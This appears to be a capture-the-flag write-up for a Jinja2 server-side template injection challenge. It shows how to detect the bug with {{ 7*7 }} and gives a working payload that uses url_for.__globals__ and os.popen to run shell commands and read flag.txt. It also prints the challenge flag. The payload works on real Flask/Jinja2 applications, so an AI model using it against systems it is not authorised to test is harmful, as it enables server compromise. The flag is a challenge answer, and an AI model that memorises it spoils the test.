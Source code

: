 # Solution

1. Use the hint in the website "?exploit= param to…" to browse the website with "http://URL/?exploit={{ 7*7 }}".
* There will be a number 49 in the "Output viewer". This shows there is a SSTI vulnerability.

2. Replace {{ 7*7 }} with the following code.
```
{{url_for.__globals__.os.popen(request.args.a).read()}}&a=cat flag.txt
```
3. The "Output viewer" will show the flag:
```YCEP24{s$1i_J1nj42_1n7eC7i0n_jsj9nn39a2}```

Flag: ```YCEP24{s$1i_J1nj42_1n7eC7i0n_jsj9nn39a2}```